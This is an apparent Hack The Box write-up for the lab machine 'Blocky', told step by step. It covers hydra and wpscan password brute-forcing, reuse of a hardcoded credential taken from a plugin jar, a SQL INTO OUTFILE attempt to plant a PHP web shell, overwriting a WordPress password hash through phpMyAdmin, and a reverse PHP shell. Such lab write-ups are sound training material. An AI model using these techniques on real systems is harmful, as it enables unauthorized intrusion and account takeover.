 # Solution

Start with a nmap scan as usual
```
nmap -sC -sV -oN nmap-initial 10.10.10.37
```

We have a wordpress website. We use wpscan to enumerate.  
We run gobuster in background to scan for directories.  
We go in the wordpress login page and try to enumerate the users using hydra:
```
hydra -L /usr/share/wordlists/rockyou.txt -p password 10.10.10.37 -v http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&redirect_to=http%3A%2F%2F10.10.10.37%2Fwp-admin%2F&wp-submit=Log In&testcookie=1:invalid username'
```

We see that openssh 7.2p2 is vulnerable to username enumeration. We take the script and run it. The time analysis in not reliable in my host machine. Too many false positives.

We focus the attention on the profptd service. Version 1.3.5 has vulnerabilities, it allows unauthenticated users to use SITE CPFR and SITE CPTO. Metasploit offers exploit to it as well as Exploit DB. First we try to see if it is actually vulnerable:
```
ftp 10.10.10.37
```
We log in with random credentials.  
Surprisingly when we try to use the CPFR command we are required to be authenticated.
```
ftp> site cpfr /etc/passwd
530 Please login with USER and PASS
```
Therefore it seems that it is not vulnerable.


We switch our focus on the webserver.

Run nikto
```
nikto -host 10.10.10.37 -output nikto.txt
```

We run gobuster and we find some directories:
```
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We browse some of them. In plugins we find 2 .jar archives. We download them and we focus on BlockyCore.jar.
We extract it and we find a .class file. We can see the human readable characters in the .class file:
```
> strings BlockyCore.class
com/myfirstplugin/BlockyCore
java/lang/Object
sqlHost
Ljava/lang/String;
sqlUser
sqlPass
<init>
Code
        localhost
root
8YsqfCTnvxAUeduzjNSXe22
LineNumberTable
LocalVariableTable
this
Lcom/myfirstplugin/BlockyCore;
onServerStart
onServerStop
onPlayerJoin
TODO get username
!Welcome to the BlockyCraft!!!!!!!
sendMessage
'(Ljava/lang/String;Ljava/lang/String;)V
username
message
SourceFile
BlockyCore.java
```
We have an interesting hex string: 8YsqfCTnvxAUeduzjNSXe22.  
We try to use it in the ssh login with the root user but it doesn't work. We try in the wordpress login page but it doesn't work as well.  
We try in the phpmyadmin page with root username and it works. We are inside the phpmyadmin panel.

Now we want to get access to the underlying OS. We first try using SQL by uploading a file with a backdoor.
```
SELECT '<?php system($_GET["cmd"]);?>' into outfile "/var/www/shell.php";
```
However we get this error
```
The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```
which means that cannot write to that location. We want to figure out if we have write access on some directories. We can do this by looking at the value of the option "secure_file_priv"
```
SHOW VARIABLES LIKE "secure_file_priv" 
```
The value returned is /var/lib/mysql-files/ . Therefore we know that we can write to the directory /var/lib/mysql-files/.   
We change the command to inject in the file since the file will not be visible in the web browser. We run the following test to see if we can potentially inject a backdoor (10.10.14.25 is the address of my local machine):  
```
SELECT 'ping -c 1 10.10.14.25' into outfile "/var/lib/mysql-files/ping.sh"
```
We will use the LOAD DATA INFILE command to try to execute the script.  
We can set up tcpdump locally and check whether the ping is working.
```
tcpdump -i tun0 'icmp or icmp6'
```

Now we can try to start the ping.
```
LOAD DATA INFILE('/var/lib/mysql-files/ping.sh')
```
We don't receive answer.  
I try another way. From phpmyadmin we can see that one of the user is 'notch'. We also have the hash of his password. In background we set up the password bruteforce using wpscan:
```
wpscan --url http://10.10.10.37 -U notch -P /usr/share/wordlists/rockyou.txt
```

And we also look for the hash crack. The hash is
```
$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/
```
We can use hashcat to crack it. The hash is a portable php hash. We have to find the right mode in hashcat. We can do it in the following way:
```
>hashcat --example-hashes | grep -A 2 -B 2 php

MODE: 400
TYPE: phpass
HASH: $P$946647711V1klyitUYhtB8Yw5DMA/w.
PASS: hashcat
```
We see hat the hash format actually matches. We now know that the mode is 400.  
We can proceed to crack it. We go for 
```
hashcat -m 400 -a 0 hash.txt  /usr/share/wordlists/rockyou.txt
```
Meanwhile we can try to change the password with a hash generated by us and see if we can actually log in ( we leave hashcat working, hoping that the we can retrieve the notch ssh password once the hash got cracked).  
We take the string "ciao" and we hash it using portable php hash and we get the hash :
```
$P$BthUuP2pHNnXtMpSjXC2PkhuraA1/J/
```
Now we can go in phpmyadmin and change the password for the user 'notch'. Then we can go in the login page of wordpress and try to login using username 'notch' and password 'ciao'.  
It works, we can enter the wordpress portal.  

We want to execute php from wordpress. We install the plugin PHP code snippet. Thanks to that we can add php to our pages. We can get a shell by uploading the pentestmonkey reverse PHP shell.  
We have now a shell, it runs under the user www-data.  
We import a bash shell with python:
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

We transfer and run LinPeas and LinEnum, execute them and study the results to find a way to escalate the privileges.  

---

Looking back at hashcat, we couldn't crack the hash. We try again to SSH into the box using root and 8YsqfCTnvxAUeduzjNSXe22, doubtfull whether We've already tried it or not (Yes we did). This time we also tried with the notch user and the same password. We had no expectations but it actually worked ... We could have solved the box at least some hours before... 

